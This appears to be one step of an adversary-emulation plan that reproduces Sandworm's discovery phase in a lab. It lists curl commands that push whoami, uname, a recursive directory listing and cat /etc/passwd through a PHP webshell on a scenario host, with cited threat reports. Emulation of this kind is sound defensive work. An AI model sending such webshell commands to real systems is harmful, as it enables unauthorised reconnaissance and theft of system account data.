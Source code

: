 ### Step 12 - Initial Discovery

:microphone: `voice track`

Sandworm enumerates information about the compromised system by issuing shell commands through the PHP webshell.

Executed commands include whoami, uname, ls, among others.

#### ☣️ Procedures

Execute `whoami` from P.A.S. webshell.

```bash
# Sandworm Team has collected the username from a compromised host.

curl --insecure "https://10.0.1.5/search.php?cmd=whoami"
```

:information_source: The '--insecure' option is used so that curl ignores self-signed certificate warnings. Self-signed certificates are used on host Caladan/10.0.1.5 for the scenario.

Execute `uname -a` from P.A.S. webshell.

```bash
# Sandworm Team used a backdoor to enumerate information about the infected system's operating system.

curl --insecure "https://10.0.1.5/search.php?cmd=uname+-a"
```

Execute `ls -lsahR` from P.A.S. webshell.

```bash
# Sandworm Team has enumerated files on a compromised host.

# P.A.S. Webshell has the ability to list files and file characteristics including extension, size, ownership, and permissions.

curl --insecure "https://10.0.1.5/search.php?cmd=ls+-lsahR+/"
```

Execute `cat /etc/passwd` from P.A.S. webshell.

```bash
# P.A.S. Webshell can display the /etc/passwd file on a compromised host.

curl --insecure "https://10.0.1.5/search.php?cmd=cat+/etc/passwd"
```

[Source Code](../../Resources/phpWebShell/webShell.php#L35)

#### :microscope: Cited Intelligence

* <https://www.justice.gov/opa/press-release/file/1328521/download>

* <https://www.welivesecurity.com/2017/07/04/analysis-of-telebots-cunning-backdoor/>

<br>
